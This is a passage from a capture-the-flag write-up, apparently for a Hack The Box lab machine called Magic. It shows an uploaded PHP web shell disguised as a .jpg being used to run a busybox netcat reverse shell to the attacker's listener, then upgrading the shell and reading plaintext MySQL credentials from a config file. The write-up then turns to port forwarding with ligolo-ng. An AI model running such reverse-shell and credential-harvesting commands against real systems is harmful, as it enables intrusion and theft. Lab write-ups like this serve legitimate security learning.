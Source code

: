 ```
http://10.129.140.54/images/uploads/shell.php.jpg?cmd=busybox%20nc%2010.10.14.206%208443%20-e%20%2Fbin%2Fsh
```

It worked! We got a response on our nc listener:

```shell
listening on [any] 8443 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.140.54] 52556
whoami
www-data
```

Lets upgrade our shell:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Finding MySQL credentials in db.php5 file
After doing some enumeration, we found the credentials of the user theseus inside the db.php5 file:

```shell
cat db.php5

<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
<SNIP>
```

Unfortunately, these credentials dont work on SSH.

### Forwarding Port 3306 to access MySQL
If we try to access MySQL locally, we will find out that its not installed:

```shell
mysql -h localhost -u theseus -piamkingtheseus
```

```shell
Command 'mysql' not found, but can be installed with:

apt install mysql-client-core-5.7   
apt install mariadb-client-core-10.1

Ask your administrator to install one of them.
```

We will need to forward the port 3306 and access from our Kali.

We can use ligolo-ng for that:
